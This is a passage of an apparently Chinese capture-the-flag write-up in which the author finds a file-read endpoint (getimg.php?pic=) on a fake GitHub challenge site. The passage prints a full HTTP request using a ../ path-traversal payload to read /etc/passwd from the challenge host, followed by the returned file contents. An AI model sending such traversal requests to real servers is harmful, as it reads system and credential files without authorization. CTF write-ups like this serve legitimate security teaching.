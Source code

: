 显然，攻击点就在这。

然后，就是一个很神奇的思路。

> 算是脑洞吧.getimg.php猜参数为pic，然后是一个文件读取的功能。
>
> PS:我在测试真正的github站时，发现搜索的内容会有一个预先加载的过程，一开始是一个图片加载内容,可能真正旧版本的Github是有getimg这个功能的？Maybe。。

```http
GET /c181948a9bdee64753468823ac57a870/github.com/getimg.php?pic=../../../../../../etc/passwd HTTP/1.1
Host: 118.31.18.64:20008
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __utma=13406071.113045772.1505529039.1505529039.1505529039.1; __utmz=13406071.1505529039.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=htgpdqchfo3hi3h3q2suo22fk2; tz=Asia%2FShanghai
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

猜测是一个读文件的操作，尝试读取一波。

```http
HTTP/1.1 200 OK
Date: Sun, 17 Sep 2017 03:18:06 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.20
Content-Length: 1355
Connection: close
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
flag:x:11:11:flag:/home/flag/a89ca65d:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
mysql:x:105:108:MySQL Server,,,:/var/lib/mysql/:/bin/false
```

